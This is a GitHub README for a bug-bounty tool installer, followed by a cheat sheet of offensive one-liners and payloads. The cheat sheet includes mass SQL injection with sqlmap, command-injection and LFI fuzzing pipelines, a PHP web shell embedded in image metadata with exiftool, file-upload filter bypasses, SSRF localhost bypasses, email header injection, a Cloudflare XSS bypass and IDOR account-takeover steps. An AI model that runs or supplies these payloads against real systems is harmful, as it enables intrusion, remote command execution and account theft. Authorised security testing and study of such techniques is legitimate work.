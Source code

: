 # Awesome Bug Bounty Builder

[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/0xJin/awesome-bugbounty-builder/issues)


Awesome Bug bounty builder Project - ALL common Tools for find your Vulnerabilities.

**Tested on Debian.**


![bb](https://user-images.githubusercontent.com/81621963/147457586-79ac41eb-f995-455b-a144-f80a5783047a.PNG)


---

### Installation

```
$ git clone https://github.com/0xJin/awesome-bugbounty-builder.git
$ cd awesome-bugbounty-builder/
$ chmod +x awesome-bugbounty-builder.sh
$ ./awesome-bugbounty-builder.sh
```


### Which tools You will find here

```
Amass -
Sublister -
Gauplus -
httpx -
gf + patterns -
kxss -
sqlmap -
commix -
tplmap -
hydra -
john the ripper -
evilwinrm -
Arjun -
Paramspider -
NoSQLmap -
NMAP -
nikto -
FFUF -
403-Bypass -
Gobuster -
Seclists -
Hash-identifier -
XSSMAP -
Smuggler -
SSRFmap -
gmapsapiscanner -
qsreplace -
exiftool -
XSRFProbe -
XXE Exploiter
```


---


### Bug Bounty TIPS and Usage of tools + One Liner TIPS


# ONE-LINER *RECON* for FUZZ XSS

```
$ amass enum -brute -passive -d example.com | httpx -silent -status-code | tee domain.txt
$ cat domain.txt | gauplus -random-agent -t 200 | gf xss | kxss | tee domain2.txt
```

---


# FUZZ all SUBDOMAINS with *FUFF* ONE-LINER

```
$ amass enum -brute -passive -d http://example.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w wordlist.txt -u @/FUZZ -mc 200'
```

---


# COMMAND Injection with *FUFF* ONE-LINER

```
$ cat subdomains.txt | httpx -silent -status-code | gauplus -random-agent -t 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
$ ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
// search for ”uid” in burp proxy intercept 
// You can use the same query for search SSTI in qsreplase add "{{7*7}}" and search on burp for '49'
```


---


# SQL Injection Tips

```
// MASS SQL injection
$ amass enum -brute -passive -d example.com | httpx -silent -status-code | tee domain.txt
$ cat domain.txt | gauplus -random-agent -t 200 | gf sqli | tee domain2.txt
$ sqlmap -m domain2.txt -dbs --batch --random-agent
// SQL Injection headers:
$ sqlmap -u "http://redacted.com" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10
// SQL Injection bypass 401
$ sqlmap -u "http://redacted.com" --dbs --batch --random-agent --forms --ignore-code=401
```

---


# XSS + SQLi + CSTI/SSTI

```
Payload: '"><svg/onload=prompt(5);>{{7*7}}
```


---


# EXIFTOOL + file UPLOAD Tips

```
$ exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
// File Upload bypass
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```


---


# Open Redirect Tips ONE-LINER

```
$ export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```


---


# LFI ONE-LINER

```
$ gauplus -random-agent -t 200 http://redacted.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```


---


# Best SSRF Bypass

```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```


---


# Email Header Injection 

```
$ "%0d%0aContent-Length:%200%0d%0a%0d%0a"@example
.com
$ "recipient@test.com>\r\nRCPT TO:<victim+"@test
.com
```


---


# XSS Payload for Image

```
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```


---


# My XSS for bypass CLOUDFLARE with default rules

```
"/><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
```


---


# Find hidden params in javascript files

```
$ amass enum -passive -brute -d redacted.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```


---


# IDOR to Account TakeOver quickly

```
~Create an account 
~In the reset field set a password and intercept with burp
~GET /user/2099/reset (change to 2098) send the request
~Take the token 
~Cookie editor and use this token
~Reload page
```


---


# For API-KEYS 

```
$ use gauplus and paramspider , after you can grep words like "api" or "key" and use gmapsapiscanner for see if is vulnerable.
```


### Thanks Follow me on Twitter

[@0xJin](https://twitter.com/0xJin) - This tool is made from 0xJin

